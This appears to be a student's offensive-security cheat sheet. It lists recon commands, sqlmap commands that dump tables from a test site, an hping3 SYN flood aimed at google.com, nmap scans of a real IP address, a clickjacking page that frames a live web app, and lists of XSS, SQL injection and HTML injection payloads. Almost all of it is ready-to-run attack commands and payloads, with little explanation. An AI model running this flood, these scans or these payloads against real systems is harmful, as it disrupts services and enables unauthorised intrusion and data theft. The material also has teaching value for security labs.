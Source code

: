 # css

ping -c 5 1.1.1.1
whois example.com
nslookup example.com
traceroute 8.8.8.8
ifconfig

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts --columns
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T carts -C item --dump

sudo apt-get -y install hping3
sudo hping3 -S --flood -V -p 80 google.com

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking</title>
</head>
<style>
    iframe{
        opacity: 0.1;
    }
    button	        position: absolute;
        top: 485px;
        left: 175px;
    }
</style>
<body>
    <h2>Clickjacking Demo Page (iframe)</h2><br/>
    <iframe src="https://study-notion-frontend-wheat.vercel.app/" height="500px" width="500px"></iframe>
    <button>click me </button>
</body>
</html>


ping -c 5 www.tcetmumbai.in
nmap -sT 162.241.71.29 (tcp scan)
sudo nmap -sX 162.241.71.29 (xmas scan)
sudo nmap -O 162.241.71.29 (os fingerprinting)
sudo nmap -sn 162.241.71.29/24 (ping scanning)
sudo nmap 162.241.71.29 (port scanning)

***xxs payloads***
<div>
  <h2>{{name}}</h2>
</div>
<div>
  <h2><script>alert("xss")</script></h2>
</div>
<button onClick="alert('xss')">Submit</button>
<body/onfocus=top.alert(17)>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

***sql injection attack***
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

***html injection attack***
<h5>HTML</h5>
<h6>HTML</h6>
<pre>HTML</pre>
<p>HTML</p>
<i>HTML</i>
<a href="https://www.google.com">HTML</a>
<abbr title="HTML">HTML</abbr>
<acronym title="Armour Infosec">AI</acronym>
<address>address,address</address>
<article><h2>Armour Infosec</h2></article>
<iframe src="https://www.google.com" title="test"></iframe>
123<h1>HTML</h1>
<h1>HTML</h1>123
123<h1>HTML</h1>123
%253Ch1%253EHTML%253C%252Fh1%253E
<iframe id="if1" src="https://www.google.com"></iframe>
<iframe id="if2" src="https://www.google.com"></iframe>
